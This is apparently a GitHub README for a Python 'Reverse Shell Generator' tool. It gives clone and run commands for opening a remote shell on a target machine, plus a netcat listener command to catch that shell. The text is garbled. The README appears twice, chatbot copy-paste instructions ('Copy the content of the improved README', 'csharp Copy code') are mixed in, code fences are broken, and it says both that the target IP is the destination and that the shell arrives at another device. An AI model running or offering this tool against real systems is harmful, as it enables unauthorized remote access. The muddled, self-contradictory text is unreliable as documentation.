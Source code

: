 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- `psutil` library
- A target machine to run the reverse shell on

### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/

2. Change into the project directory:
    ```bash
   cd .......

#Configuration

No specific configuration is required for this script. However, you need to specify the target IP and port using command-line arguments.


To add this improved README to your GitHub repository, follow these steps:

Open the README file on your local machine using a text editor.

Copy the content of the improved README:

csharp
Copy code
# Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Please use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- **Python 3.x**
- **psutil** library
- A target machine to run the reverse shell on

### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/
Change into the project directory:

bash
Copy code
cd reverse-shell-generator
Install the required dependencies (in this case, psutil):

bash
Copy code
pip install psutil
Configuration
No specific configuration is required for this script. However, you need to specify the target IP and port using command-line arguments.

#Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER

#How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace TARGET_IP with the IP address of the target machine.
- Replace PORT_NUMBER with the port number to connect to on the target machine.
- The script will create a reverse shell connection to the specified IP and port.

#IMPORTANT

You want to start listen to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp port
